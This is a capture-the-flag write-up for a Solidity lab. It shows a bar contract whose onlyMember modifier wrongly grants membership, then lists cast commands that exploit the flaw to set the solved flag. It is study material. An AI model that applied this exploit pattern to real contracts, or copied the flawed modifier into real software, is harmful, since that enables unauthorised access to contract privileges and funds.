 To solve the Lab, we need to make `Setup:;playerSolved()` returns true, here is the code

```solidity
    function solvedByPlayer() public {
    playerSolved = bar.beerGlass(msg.sender) >= 1 ? true : false;
}

function isSolved() public view returns(bool){
    return playerSolved;
}
```

We first need to call the `solvedByPLayer()` function, because that function will update the state of `playerSolved()` bool, after that we can just simply press `Flag` button on the instance. Let's first look for a function that will modify `beerGlass` 

```solidity
function register() public payable isHuman{
    // You can register here, but still need the Onwer to add you in.
    require(msg.value >= 1e18, "Need 1 ether deposit.");
    balance[msg.sender] += msg.value;
}

function addMember(address _addMember) public isHuman onlyOwner(_addMember){
    require(balance[_addMember] > 0, "You need to deposit some money to become a member.");
    barMember[_addMember] = true;
}

function getDrink() public isHuman onlyMember{
    require(balance[msg.sender] > 0, "You need to deposit some money.");
    require(barMember[msg.sender] == true);
    beerGlass[msg.sender]++;
}
```

We have some options there, `register()`, `addMember()` and `getDrink()`, based on what we need we have to call the `getDrink()` but there is a modifier called `onlyMember` and `isHuman` plus we need our balance to be greater than zero. From the function alone, what we can tell is to become a member the `owner` must add the member manually by calling the `addMember()`, we can still call `register()` with the value 1 ether. Let's look the rest of the code now

```solidity
modifier isHuman(){
    require(msg.sender == tx.origin, "Only Human Allowed in this Bar!");
    _;
}

modifier onlyOwner(address _addMember) {
    require(owner == msg.sender, "Only Owner can add Member!");
    _;
}

modifier onlyMember() {
    barMember[msg.sender] = true;
    _;
}

receive() external payable{
    balance[msg.sender] += msg.value;
}
```

There are 3 modifiers that exist in the contract, the `isHuman()` modifier ensure that the `msg.sender` is same as `tx.origin`, meaning only EOA can interact with the contract. The `onlyOwner()` has 1 parameter which is `_addMember`. Now `onlyMember()` modifier, it is quite different than another modifier, instead of ensuring a condition, it actually set a condition, especially `msg.sender`, it sets the `barMember[msg.sender]` to become true, this is clearly a flaw by the developer.

Earlier we know that the `getDrink()` function use this modifier, this means what lefts now are giving ourselves some balance either by calling the `register()` function or directly send the contract some balance because it has `receive() external payable` defined there and directly add the amount to our balance. Okay then, the solve should be

```bash
// get the bar contract address
cast call -r $RPC_URL $SETUP_ADDR "bar()"

// send some money to the contract
cast send -r $RPC_URL --private-key $PK $BAR_ADDR --value 1ether

// get ourselves some drink
cast send -r $RPC_URL --private-key $PK $BAR_ADDR "getDrink()"

// call setup.sol::solvedByPlayer()
cast send -r $RPC_URL --private-key $PK $SETUP_ADDR "solvedByPlayer()"
```

After that we just need to click Flag, and we should've solved the lab.